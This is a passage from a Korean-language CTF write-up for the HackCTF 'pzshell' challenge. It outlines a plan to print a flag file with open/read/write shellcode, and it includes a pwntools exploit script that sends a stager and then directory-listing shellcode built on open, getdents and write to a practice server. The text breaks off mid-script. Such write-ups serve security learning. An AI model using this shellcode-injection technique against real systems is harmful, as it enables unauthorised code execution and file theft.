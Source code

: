 - **S3cr3t_F14g 파일의 내용을 출력시키는 시나리오**
    1. **(" S3cr3t_F14g ")를 파일 이름으로 하여 open으로 열기**

        ⇒ 이렇게 정상적으로 열리면 fd=3을 반환할 것임.

    2. read로 파일이름을 읽어서 스택에 저장하기 read(fd=3,rsi, 사이즈)
    3. **write로 출력하기 write(rax=1,rdi=1,rsi=lea rsi,[rsp],출력할 사이즈)**
    => read함수를 통해 반환된 값을 rdx에 넣고 출력

위 시나리오대로 쉘코드를 만들어서 실행시키면 정상적으로 플래가 출력된다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20pzshell/Untitled%203.png)





### 3. 풀이

---

- **첫번째 시나리오 코드(파일이름 찾기)**

        from pwn import *
        #context.log_level="DEBUG"
        context(arch="amd64",os="linux",log_level="DEBUG")
        p=remote("ctf.j0n9hyun.xyz",3038)
        #p=process("./pzshell")
        #gdb.attach(p,'code\nb *0xea0+$code\n')
        
        shell="xchg rsi,rdx;"
        shell=asm(shell)
        shell+=asm('jmp '+hex(0xFFFFFFFFFFFFFFC7+4), vma=0x1, arch='amd64',os='linux')
        shell=shell.ljust(8,"\xcc")
        log.info(len(shell))
        pause()
        p.send(shell)
        
        open="mov rsp,QWORD PTR fs:[0];"
        open+="push 0x2e;"
        open+="lea rdi,[rsp];"
        open+="xor rdx,rdx;"
        open+="xor rsi,rsi;"
        open+="mov rax,2;"
        open+="syscall;"
        
        getdents="mov rdi,rax;"
        getdents+="lea rsi,[rsp];"
        getdents+="xor rdx,rdx;"
        getdents+="xor rax,rax;"
        getdents+="mov dx,0x3050;"
        getdents+="mov rax,0x4e;"
        getdents+="syscall;"
        
        write="mov rdx,rax;"
        write+="xor rax,rax;"
        write+="xor rdi,rdi;"
        write+="xor rsi,rsi;"
        write+="mov rdi,1;"
        write+="mov rax,1;"
        write+="lea rsi,[rsp];"
        write+="syscall"
        